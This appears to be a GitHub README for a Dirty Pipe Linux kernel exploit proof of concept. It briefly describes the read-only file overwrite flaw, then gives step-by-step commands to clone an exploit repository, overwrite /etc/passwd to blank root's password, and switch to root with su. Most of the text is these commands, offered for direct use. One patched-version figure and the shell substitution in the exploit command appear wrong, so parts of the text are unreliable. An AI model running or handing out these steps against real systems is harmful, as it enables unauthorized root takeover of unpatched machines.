 # Dirty-Pipe (PoC)

![image1](https://i.imgur.com/VDCLoTZ.png)

# What is it?

Dirty-Pipe is a vulnerability which allows us to overwrite files even if they have read-only permissions. This vulnerability affects kernel versions 5.8 onwards. This vulnerability has reportedly been patched for kernel versions 5.10.102, 5.12.25 and 5.16.11.

---

1. First of all, we must clone the repository where the exploit is located. 

```bash
git clone https://github.com/nekoox/dirty-pipe.git
```

2. Once cloned, we enter the directory and execute the exploit with the following syntax.

```bash
cd dirty-pipe

./exploit /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
```

3. Once run, if the kernel version is vulnerable, it should work fine. We change to root.

```bash
su
```

![image](https://i.imgur.com/D2Qm4qh.png)

And as we can see we have successfully exploited Dirty-Pipe!
